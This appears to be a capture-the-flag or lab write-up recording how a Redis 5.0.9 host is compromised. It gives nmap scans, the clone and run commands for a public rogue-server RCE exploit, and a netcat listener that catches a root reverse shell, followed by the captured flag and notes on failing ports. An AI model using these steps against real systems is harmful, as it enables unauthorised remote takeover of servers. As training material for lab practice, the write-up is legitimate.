Report

# 1. Nmap scan with service version or aggressive scan gives the Redis version 5.0.9:
`sudo nmap -p22,53,80,6379,8080,27017 -sV -T1 --version-intensity 9 -192.168.86.69`

`sudo nmap -p22,53,80,6379,8080,27017 -A -T1 192.168.86.69`


# 2. Google search **redis 5.0.9 rce**.
This gave us some links that didn't quite work (eg. didn't have the exp.so file as indicated in the first link) 

# 3. Google search **redis 5.0 rce**
This gave us a more broad search. The first link is the one that ended up working. 

# 4. This exploit works 
https://github.com/n0b0dyCN/redis-rogue-server.git


# 5. Inspect the code.
We see it is using python3


# 6. Create a virtual project using python3 (default)
Also upgraded pip in the virutalenv, and downloaded what I saw were requirements (six and argparse) from the first link in step 2.
`mkproject n0b0dy` 
`pip install --upgrade pip`
`pip install six`
`pip install argparse`


# 8. Download the repo
`git clone https://github.com/n0b0dyCN/redis-rogue-server.git`

# 9. Run the exploit
### It did not work with the default usage that only specified the target and listener `python redis-rogue-server.py --rhost 192.168.159.69 --lhost 192.168.49.159`


### This DOES work:
`python redis-rogue-server.py --rhost 192.168.159.69 --lhost 192.168.49.159 --lport 8080`


# 10. Start the netcat listener prior to choosing the reverse shell.
The script will ask if you want an interactive or reverse shell. We will choose the reverse shell. HOWEVER, before inputting your choice, start a netcat listener
`sudo nc -lnvp 8080`

# 11. Now choose the `r` for reverse shell
The rest of the exploit executes


# 12. Check our netcat listener.
We caught the shell and are root


# 13. Proof.txt
`cat /root/proof.txt
3cdd353b8b7ca36a5b612104c044f5b2`

# 14. ifconfig
`ifconfig
ens192: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500                             
        inet 192.168.159.69  netmask 255.255.255.0  broadcast 192.168.159.255            
        ether 00:50:56:bf:14:c1  txqueuelen 1000  (Ethernet)                             
        RX packets 238  bytes 109910 (107.3 KiB)                                         
        RX errors 0  dropped 0  overruns 0  frame 0                                      
        TX packets 231  bytes 18538 (18.1 KiB)                                           
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0                       
                                                                                         
lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536                                             
        inet 127.0.0.1  netmask 255.0.0.0                                                
        loop  txqueuelen 1  (Local Loopback)                                             
        RX packets 29583  bytes 3067007 (2.9 MiB)                                        
        RX errors 0  dropped 0  overruns 0  frame 0                                      
        TX packets 29583  bytes 3067007 (2.9 MiB)                                        
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0  `

# ALTERNATELY, this could be solved using Metasploit 



Notes:
-port 4444 did not work
-we had to use port 8080 on the payload. Why? Because it matches the target's http-proxy port 8080 that uses nodebb?
-didn't work on linux/x86/shell_reverse_tcp port 8080. Why?
-didn't work on linux/x86/shell/reverse_tcp port 8080. Why?